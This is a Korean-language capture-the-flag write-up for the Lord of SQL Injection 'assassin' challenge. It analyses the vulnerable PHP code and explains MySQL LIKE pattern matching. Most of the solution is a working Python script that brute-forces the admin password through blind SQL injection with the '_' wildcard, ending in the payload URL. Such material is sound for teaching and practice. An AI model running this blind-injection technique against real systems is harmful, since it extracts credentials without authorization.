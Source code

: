 # Lord of SQL Injection No.15 - assassin

## 문제 출제 의도

`LIKE` 연산자 뒤에 오는 문자열에 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

## 소스 코드 분석

assassin 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `'` 가 들어 있으면 `No Hack ~_~`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 `$result[id]` 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

* pw가 `'`로 둘러싸여 있고 `'`는 필터링 되므로 `LIKE` 연산자 뒤에 오는 문자열에 Blind SQL Injection을 하여 `pw`를 직접 알아내서 푸는 방법을 사용한다.

## SQL 패턴 매칭

* MySQL은 유닉스 유틸리티가 사용하는 vi, grep, 및 sed등과 유사한 확장된 규칙 수식 (extended regular expression)에 근거한 패턴 매칭 형식 뿐만 아니라 표준 SQL 패턴 매칭도 함께 제공한다.

* SQL 패턴 매칭에서 ‘_’를 사용해서 단일 문자를 매칭시킬 수 있고 ‘%’를 사용해서 정해지지 않은 개수의 문자를 매칭 시킬 수 있다.

* SQL 패턴은 디폴트로 대소 문자를 구분하지 않는다.

* SQL패턴을 사용할 때에는 = 또는 <>는 사용할 수 없다. LIKE 또는 NOT LIKE 를 대신 사용한다.

* MySQL의 패턴 매칭에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [3.3.4.7. 패턴 매칭 - :::MySQL Korea:::](http://www.mysqlkorea.com/sub.html?mcode=manual&scode=01&m_no=20156&cat1=3&cat2=91&cat3=102&lang=k)

-----

## Solution
    
1. 와일드카드 활용

    ```python
    import urllib.request
    from urllib.parse import quote
    from string import digits
    from string import ascii_lowercase

    guestpwlen = 0
    adminpwlen = 0
    key = "" # admin 비밀번호가 저장될 문자열
    guestkey = "" # guest 비밀번호가 저장될 문자열
    findadmin = False # guest 비밀번호 문자와 admin 비밀번호 문자가 같은 경우 처리하기 위해 만든 변수 

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
        data = ('_' * i) # 한 문자 와일드카드인 _ 이용하여 pw 길이 측정
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
        )

        req = urllib.request.urlopen(re)

        result = req.readline()
        print(result)

        if str(result).find("Hello guest") != -1:
            guestpwlen = i
            print ("guest pw length : " + str(guestpwlen))

        if str(result).find("Hello admin") != -1:
            adminpwlen = i
            print ("admin pw length : " + str(adminpwlen))
            findadmin = True
            break

    if not findadmin:
        adminpwlen = guestpwlen
        print ("admin pw length : " + str(adminpwlen))
    findadmin = False

    for i in range(0, adminpwlen):
        if not findadmin:
            key = guestkey
        findadmin = False
        for j in digits + ascii_lowercase:
            url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
            data = key + "{}".format(j) + ("_" * (7 - i))
            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81")
            re.add_header(
                "Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8")
            req = urllib.request.urlopen(re)

            result = req.readline()
            print(result)

            if str(result).find("Hello guest") != -1: # guest와 admin이 같은 비밀번호를 가질 경우 Hello guest가 출력되므로 일단 guestkey에 저장했다가 findadmin을 이용하여 처리
                guestkey += j
                print ("g : " + guestkey)

            if str(result).find("Hello admin") != -1:
                key += j
                print ("a : " + key)
                findadmin = True
                break
    print (key)
    ```

    이러한 코드를 실행하면 결과값으로 832edd10 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=832edd10
    ```